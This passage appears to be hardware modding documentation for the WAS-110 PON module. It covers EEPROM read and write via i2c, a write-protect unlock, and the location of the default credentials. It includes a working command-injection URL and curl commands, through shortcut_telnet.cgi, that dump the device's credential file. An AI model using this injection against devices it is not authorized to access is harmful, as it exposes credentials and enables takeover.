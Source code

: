     ``` sh
    i2cget -fy 0 0x51 0x0
    ```

### Write

#### Physical EEPROM

!!! warning "Incorrect writes to the EEPROM can prevent the host from recognizing the WAS-110"

The EEPROM is write protected and can be disabled by writing `12345678` to A2 (0x51) at offset `0x7B`.

``` sh
i2cset -fy 0 0x51 0x7B 0x12 0x34 0x56 0x78 i
```

To re-enable write protection, write `00000000` to A2 (0x51) at offset `0x7B`.

``` sh
i2cset -fy 0 0x51 0x7B 0x00 0x00 0x00 0x00 i
```

## Default Credentials

### Web credentials

The default web credentials can be found in `/ptrom/ptconf/param_ct.xml`. Modifications from the web UI are stored in
`/ptrom/ptconf/usrconfig_conf` as base64 encoded strings.

!!! warning "Passwords have a maximum length of 16 characters which are not restricted by the web UI"

??? bug "Exploit to disclose the default web credentials"
    To dump the web credentials from `/ptrom/ptconf/param_ct.xml`, navigate to:

    <http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml>

    Alternatively, run the following command(s) to download `param_ct.xml` to a temporary directory.

    === ":material-microsoft: Windows"


        __Command Prompt__

        ``` sh
        dir %Temp% & curl.exe -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```

        __Powershell / Windows Terminal__

        ``` sh
        dir %Temp% ; curl.exe -O "http://192.168.11.1/cgi-bin/shortcut_telnet.cgi?cat%20%2Fptrom%2Fptconf%2Fparam_ct.xml"
        ```
